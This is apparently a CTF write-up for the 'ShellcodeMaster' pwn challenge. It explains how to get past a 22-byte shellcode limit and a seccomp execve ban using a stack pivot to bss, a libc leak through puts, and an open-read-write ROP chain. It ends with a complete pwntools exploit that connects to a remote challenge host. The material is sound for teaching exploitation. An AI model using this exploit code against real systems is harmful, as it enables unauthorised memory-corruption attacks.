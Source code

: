 # ShellcodeMaster 

*You must be a shellcode master*

## 文件属性

|属性  |值    |
|------|------|
|Arch  |x64   |
|RELRO|Partial|
|Canary|off   |
|NX    |on    |
|PIE   |off   |
|strip |no    |

## seccomp rules

<img src="assets/shc2rules.png" height="50%" width="50%">

## 解题思路

只给了22字节，并且禁了execve和execveat，且我们对mmap的内存只有执行权限，不能写不能读，
因此拿shell、orw、read shellcode回内存、执行32位execve都不现实，但是程序**没有开PIE**！
那么我们可以将内容读到bss上，然后栈迁移过去

这里我实现了我的第一种思路：先把putsPlt、putsGot写上，leak libc，然后跳回到`0x2333000`，
再次读入，这样就有了gadgets和函数地址，接着在bss上读orw，最后栈迁移过去就能打印出flag  
其中虽然题目没有给libc，但是借助LibcSearcher，我们可以借泄露出来的libc地址判断libc版本，
这样就可以找到libc了

还有两种思路，我没有实现，但应该是打的通的

思路2：由于shellcode所在的地址是已知的，且22字节对于read到bss上这一需求是过多的，
所以我们还可以在shellcode里加上`pop rdi`等gadget，这样就避免了原来没有gadget所致的难题，
最后只要一口气栈迁移到bss上leak，打orw即可，可以减少一次跳回shellcode

思路3：由于二进制程序是`Partial RELRO`的，那么在shellcode里搓好gadget之后还可以栈迁移到bss上，
打ret2dlresolve，这样甚至连libc都不需要leak，直接一步到位，orw打印flag

## EXPLOIT

```python
from pwn import *
import LibcSearcher
context.arch = 'amd64'
context.terminal = ['tmux','splitw','-h']

def payload(lo:int):
    global sh
    if lo:
        sh = process('./shellcode2')
        if lo & 2:
            gdb.attach(sh, gdbscript='b *0x4013f6')
        libc = ELF('/usr/lib/libc.so.6')
    else:
        sh = remote('106.14.57.14', 31751)
        libc = ELF('/home/Rocket/glibc-all-in-one/libs/2.35-0ubuntu3.6_amd64/libc.so.6')
    elf = ELF('./shellcode2')
    bssHigh = 0x404800
    mmap = 0x2333000
    putsGot = elf.got['puts']
    putsPlt = elf.plt['puts']
    readPlt = elf.plt['read']

    # payload 1, read on bss and stack pivot to bss
    sh.recvuntil(b'0x16')
    code = f'''
    mov esp,{hex(bssHigh)}
    xor eax,eax
    xor edi,edi
    push rsp
    pop rsi
    push r14
    pop rdx
    syscall
    mov edi,{hex(putsGot)}
    ret
    '''
    sh.send(asm(code))

    # payload 2, leak libc
    sh.recvuntil(b'Love!\n')
    sh.sendline(p64(putsPlt) + p64(mmap))

    putsAddr = u64(sh.recv(6) + b'\0\0')
    # libc = LibcSearcher.LibcSearcher('puts', putsAddr & 0xfff)
    # libc.dump('system') # [+] ubuntu-glibc (id libc6_2.35-0ubuntu3.6_amd64) be choosed.
    libcBase = putsAddr - libc.symbols['puts']
    openAddr = libcBase + libc.symbols['open']
    gadgets = ROP(libc)
    popRdi = libcBase + gadgets.rdi.address
    popRsi = libcBase + gadgets.rsi.address
    popRdxRbx = libcBase + gadgets.rdx.address
    sleep(0.5)

    # payload 3, run shellcode again, put orw on bss, and stack pivot again
    offset = 16 * 8 # 16x addr to pop/jmp
    sh.sendline(p64(popRdi) + p64(bssHigh + offset) + p64(popRsi) + p64(0) + p64(openAddr) +
                p64(popRdi) + p64(3) + p64(popRsi) + p64(bssHigh + offset + 8) +
                p64(popRdxRbx) + p64(0x50) + p64(0) + p64(readPlt) +
                p64(popRdi) + p64(bssHigh + offset + 8) + p64(putsPlt) + b'./flag\0')

    sh.interactive()
```
